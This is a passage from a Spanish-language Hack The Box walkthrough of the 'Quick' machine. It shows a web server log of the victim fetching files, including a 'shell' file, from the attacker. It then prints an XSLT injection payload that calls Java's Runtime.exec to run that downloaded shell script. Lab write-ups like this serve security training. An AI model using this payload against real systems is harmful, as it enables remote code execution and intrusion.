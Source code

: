 Buscamos el ticket en la ruta `search.php`.


![](/assets/images/HTB/htb-writeup-Quick/quick9.PNG)


Y en consecuencia recibimos la petición, que indica que se subio nuestro archivo `shell` a la maquina victima. 

```python
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.186 - - [16/Jun/2023 23:40:17] "GET /a.xsl HTTP/1.1" 200 -
10.10.10.186 - - [16/Jun/2023 23:40:17] "GET /a.xml HTTP/1.1" 200 -
10.10.10.186 - - [16/Jun/2023 23:40:18] "GET /shell HTTP/1.1" 200 -
```

Ahora debemos hacer el mismo proceso, pero esta vez modificaremos nuestros archivos con el comando inyectado en `CDATA` por `bash shell`, para que se ejecute nuestro archivo.

Para evitar problemas en esta segunda petición modifiquemos el nombre de los archivos `xml y xsl`.

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
  <xsl:variable name="cmd"><![CDATA[bash shell]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

Realizamos la misma ejecución.

![](/assets/images/HTB/htb-writeup-Quick/quick12.PNG)